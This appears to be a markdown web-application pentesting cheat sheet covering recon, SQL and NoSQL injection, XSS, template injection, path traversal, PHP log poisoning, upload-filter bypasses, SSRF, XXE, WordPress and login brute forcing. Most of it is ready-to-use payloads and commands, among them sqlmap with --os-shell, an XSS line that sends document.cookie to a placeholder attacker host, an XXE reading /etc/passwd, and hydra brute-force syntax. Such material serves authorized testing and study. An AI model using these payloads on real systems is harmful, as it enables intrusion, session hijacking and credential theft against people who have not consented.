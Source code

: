 # Web-Applications

- [Web-Applications](#web-applications)
  - [Recon](#recon)
  - [SQL-Injection](#sql-injection)
  - [Server Side Template Injection](#server-side-template-injection)
  - [File Inclusion / Path traversal](#file-inclusion--path-traversal)
    - [PHP Backend](#php-backend)
  - [File Upload](#file-upload)
    - [Filters](#filters)
    - [Zip File Upload](#zip-file-upload)
  - [Server Side Request Forgery](#server-side-request-forgery)
    - [Localhost Bypass](#localhost-bypass)
    - [Protocols](#protocols)
  - [Regex Bypass](#regex-bypass)
  - [NoSQL-Injection](#nosql-injection)
  - [XML External Entities](#xml-external-entities)
  - [Wordpress](#wordpress)
  - [Brute Force Login](#brute-force-login)

## Recon

- web directories and subdomains
```
gobuster dir -u http://<rhost> -w <wordlist> -x php,html
gobuster vhost -u http://<rhost> -w <wordlist> --append-domain
```
- ``/robots.txt`` and ``/sitemap.xml``
- view source ``CTRL+U``
- view storage/cookies
- response headers
- 404 error page
- ``Wappalyzer`` (Browser Plugin): technologies used by a website
- ``nikto -h <url>``: web application vulnerabilities
- ``/.git/`` $\Rightarrow$ [git-dumper](https://github.com/arthaud/git-dumper)

## SQL-Injection

- authentication bypass
  ```
	' or 1=1 #
	' or '1'='1' #
	" or 1=1 --
	```
- sqlmap
  ```
  sqlmap -u "http://<rhost>" --forms
  sqlmap -r request.txt --level 5 --risk 3 --batch
  sqlmap -u "http://<rhost>" --os-shell
  ```

## Cross-Site-Scripting
    
```html
<script>alert("XSS")</script>
<img src=x onerror=this.src="http://<lhost>:<lport>/?cookie="+document.cookie>
```

## Server Side Template Injection

- input is reflected in response
- ``{{7*7}}`` $\Rightarrow$ 49?
- FUZZ string: ``${{<%[%'"}}%\.``
- [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

## File Inclusion / Path traversal

- example: ``http://example.com/index.php?page=home.html``
- interesting files:
  - ``/etc/passwd``: users and home directories
  - ``/etc/apache2/sites-enabled/000-default.conf``: default Apache configuration
  - ``/proc/self/cmdline``, ``/proc/self/environ``, ``/proc/self/status``
  - ssh keys
  - web-app files e.g. ``.htaccess`` and ``config.php`` 

### PHP Backend
- Wrappers
  - ``php://filter/convert.base64-encode/resource=index.php``
  - ``expect://id``
  - ``phar://exploit.zip/shell``: upload phar/zip archive and execute PHP file in the archive
  - [PHP filter chain](https://github.com/synacktiv/php_filter_chain_generator)
- Log Poisoning
  - Send request with PHP shell in the User-Agent and include the log file
  - ```
    /var/log/apache2/access.log
    /var/log/apache/access.log
    /var/log/apache2/error.log
    /var/log/apache/error.log
    /var/log/nginx/access.log
    /var/log/nginx/error.log
    ```

## File Upload

### Filters
- file extension
	- upload file with allowed extension and rename the file
  - double extension e.g. ``shell.php.jpg``
  - null byte: ``shell.php%00.jpg``
	- blacklist $\Rightarrow$ try alternative extensions
  	- PHP: phtml, pht, php3, php4, ...
  	- ASP: asp, aspx
- Content-Type Header
	- change header to allowed type
- magic bytes
	- change magic bytes in hex editor
	- [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

### Zip File Upload
- upload zip file with symlinks $\Rightarrow$ file read
- write files with path traversal through file names e.g. file with name ``../../../../../root/.ssh/authorized_keys``
- zip file upload + LFI + PHP backend $\Rightarrow$ phar injection

## Server Side Request Forgery

- try to access internal websites or resources
- fuzz for internal open ports

### Localhost Bypass

```
http://localhost:80/
http://127.0.0.1:80/
http://127.0.1:80/
http://127.1:80/
http://127.000000000000000.1:80/
http://0:80/
http:@0:80/
http://[::]:80/
http://[0000::1]:80/
http://[::ffff:127.0.0.1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]:80/
```

### Protocols

- ``file://``: read local file
- ``http://``: perform http request
- ``dict://``: access word lists
- ``sftp://``: connect to sftp server

## Regex Bypass

Regex only checks first line $\Rightarrow$ put malicious payload in the second line
```
abc%0d%0a<script>alert("xss")</script>
abc%0d%0a{{7*7}}
```

## NoSQL-Injection

```
admin' || '1'=='1

username[$ne]=foo&password[$ne]=foo
{"username": {"$ne": "foo"}, "password": {"$ne": "foo"} }
```

## XML External Entities

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY passwd SYSTEM 'file:///etc/passwd'> ]>
<entry>&passwd;</entry>
```

## Wordpress

```
wpscan --url <url> -e u,t,p
wpscan --url <url> -U <users> -P <passwords> -t 50
```
- RCE: add PHP shell to theme

## Brute Force Login

```
hydra -L <users> -P <passwords> <rhost> http-post-form "<path>:username=^USER^&password=^PASS^:<failure-string>"
```
